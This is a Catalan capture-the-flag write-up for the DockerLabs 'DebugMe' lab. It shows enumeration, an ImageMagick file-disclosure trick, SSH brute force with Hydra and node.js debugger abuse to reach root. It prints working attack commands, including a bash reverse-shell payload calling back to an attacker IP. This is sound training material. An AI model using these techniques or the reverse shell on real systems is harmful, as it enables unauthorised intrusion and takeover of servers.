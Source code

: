 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs-ca
featured: true
draft: false
ogImage: "assets/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs
  - LFI
  - nodejs
description:
  Aquest desafiament de ciberseguretat guia els participants a través d'una intrusió en un servidor. El procés implica l'enumeració de serveis, l'explotació d'una vulnerabilitat de LFI, l'accés a SSH mitjançant força bruta i l'escalada de privilegis a través d'un procés de node.js.
lang: ca
---
```


Aquest desafiament de ciberseguretat, disponible a <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guia els participants a través d'una intrusió en un servidor. El procés implica l'enumeració de serveis, l'explotació d'una vulnerabilitat de LFI, l'accés a SSH mitjançant força bruta i l'escalada de privilegis a través d'un procés de node.js per aconseguir accés root.

## Taula de continguts

## Enumeració

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](/assets/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](/assets/debugme/image.png)

Visitem el lloc web als ports 80 i 443, i apareix la mateixa pàgina. Sembla ser una eina on podem seleccionar una imatge i les diferents versions de mida que volem per a la imatge.

![Resize image](/assets/debugme/image-2.png)

En enviar el formulari amb una imatge i diferents versions, les mostra en una pàgina.

![Result](/assets/debugme/image-3.png)

Fem una mica de fuzzing al servei web utilitzant gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

Trobem el clàssic info.php, amb informació de PHP.

![gobuster](/assets/debugme/image-4.png)

A `/info.php`, trobem un munt d'extensions PHP instal·lades i una versió de PHP una mica desactualitzada `PHP Version 7.2.24-0ubuntu0.18.04.3`.

També veiem que els mòduls `GD` i `Image Magick` estan instal·lats, cosa que pot ser utilitzada per al servei de transformació d'imatges.

## Intrusió

És probable que existeixin diferents maneres de realitzar la intrusió; en aquest cas, optem per una possible LFI (crec que això seria LFI, però no n'estic segur) que ocorre durant la transformació d'ImageMagick.

Més informació a:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Seguint les instruccions de hackplayers, instal·lem les dependències necessàries:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

Utilitzem un PNG i afegim el camp de perfil amb la ruta que volem injectar. Això crearà l'arxiu pngout.png.

![pngcrush](/assets/debugme/image-5.png)

Verifiquem que s'hagi afegit correctament.

```bash
exiv2 -pS pngout.png
```

![alt text](/assets/debugme/image-6.png)

Ara fem servir la imatge pngout.png al servei web, seleccionem una mida i fem clic a "Resize".

![Resize payload](/assets/debugme/image-7.png)

Apareixen les dues imatges, fem clic dret en una i la descarreguem al nostre Kali, anomenant-la resultat.png.

![alt text](/assets/debugme/image-8.png)

Verifiquem si les dades s'han filtrat en el perfil.

```bash
identify -verbose resultat.png
```

![alt text](/assets/debugme/image-9.png)

Sembla que les dades s'han filtrat correctament. Copiem tots els bytes hexadecimals del perfil i els posem en una sola línia. Després, els incloem en el següent Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

I el resultat:

![alt text](/assets/debugme/image-10.png)

Genial, ara tenim un LFI, i podem veure que hi ha un usuari anomenat `lenam` i un altre anomenat `application`.

### Força Bruta SSH

Si intentem buscar altres arxius interessants, no trobem res. Intentem un atac de força bruta amb l'usuari `lenam` utilitzant Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

Amb una mica de paciència, trobem la contrasenya SSH per a l'usuari lenam.

![lenam ssh password](/assets/debugme/image-11.png)

## Escalada de Privilegis

Accedim via SSH utilitzant l'usuari `lenam` i la contrasenya `loverboy`.

![alt text](/assets/debugme/image-12.png)

Veiem que podem executar la comanda `/bin/kill` com a root amb la contrasenya de lenam.

També observem els processos que està executant root i veiem que s'està executant un procés de node.js.

```bash
ps aux | grep root
```

![processes](/assets/debugme/image-13.png)

Verifiquem si hi ha ports locals oberts i trobem els ports 8000 i 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](/assets/debugme/image-14.png)

El port 8000 sembla ser una aplicació node.js.

```bash
curl 127.0.0.1:8000
```

![alt text](/assets/debugme/image-15.png)

Com que podem matar qualsevol procés, intentem obrir el depurador de node.js enviant un senyal `SIGUSR1` al procés de node.js. Això hauria de reiniciar l'aplicació node.js amb el port de depuració obert (per defecte, el port 9229) i accessible a través de websockets.

Més informació:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

Per obtenir el PID del procés de node.js:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

La comanda completa:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

Verifiquem si el port de depuració i inspecció 9229 ara està obert.

![port 9229](/assets/debugme/image-16.png)

Bingo! Ha funcionat. Ara entrem a l'aplicació node.js amb l'inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](/assets/debugme/image-17.png)

Escoltem amb netcat.

```bash
nc -lvnp 5000
```

I executem la següent càrrega útil a la consola de depuració, reemplaçant la IP 10.0.2.15 per la teva.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](/assets/debugme/image-18.png)

Felicitats, ara som root.